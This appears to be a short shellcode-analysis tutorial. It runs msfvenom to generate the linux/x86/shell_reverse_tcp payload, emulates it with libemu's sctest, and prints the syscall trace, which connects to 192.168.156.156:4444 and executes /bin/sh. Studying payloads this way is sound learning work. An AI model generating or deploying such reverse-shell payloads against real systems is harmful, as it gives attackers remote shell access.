 
### Examining a Reverse TCP shell
Before trying to write a reverse TCP shell in assembly, it can be useful to disassemble an existing payload and understand all of the components at play.

Libemu is a fantastic emulator that can help with running and disassembling shellcode in to meaningful segments and instructions.

The example shellcode below is the `linux/x86/shell_reverse_tcp` payload part of `msfvenom`.

```c
skawa@ubuntu:~/libemu/tools/sctest$ msfvenom -p linux/x86/shell_reverse_tcp -f raw -a x86 --platform linux | ./sctest -vvv -S -s 100000
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe =>
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = -1667454784 (host=192.168.156.156);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 =>
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e =>
               = 0x00416fa6 =>
                   = "//bin/sh";
           = 0x00000000 =>
             none;
     ];
     const char * envp[] = 0x00000000 =>
         none;
) =  0;
```

